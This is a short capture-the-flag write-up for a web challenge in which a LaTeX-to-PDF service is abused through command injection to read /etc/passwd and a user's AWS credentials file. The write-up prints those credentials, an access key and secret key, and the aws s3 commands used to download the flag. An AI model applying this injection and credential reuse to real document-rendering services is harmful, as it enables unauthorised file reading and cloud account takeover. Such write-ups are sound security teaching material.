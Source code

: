 # Notes
**Category: Web**

This challenge will take an input and render it as a PDF:

<img src="images/home.png" width="50%">

The PDF.js library logged a result to the console: `PDF 3a7b66944d4e7ee9f77b1dede8dbb10c [1.5 pdfTeX-1.40.22 / TeX] (PDF.js: 2.14.305)`

This exposes that these are generated with pdfTeX. We can try a malicious LaTeX command and see if it works:

<img src="images/passwd.png">

This works, and also shows us we have a user directory in `/home/professor`.

The site mentioned AWS credentials, let's fetch those:

<img src="images/aws.png">

I modified my own credentials file to contain the professor's login:

```
[default]
aws_access_key_id = AKIAS6CCIWVV6RMQNP6C
aws_secret_access_key = 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
```

```
$ aws s3 ls
2022-06-10 14:49:19 professorsnotes

$ aws s3 ls professorsnotes
2022-06-10 14:54:24     867970 certificate.pdf

$ aws s3 cp s3://professorsnotes/certificate.pdf .
download: s3://professorsnotes/certificate.pdf to ./certificate.pdf
```

The certificate contains the flag!

<img src="images/flag.png" width="50%">
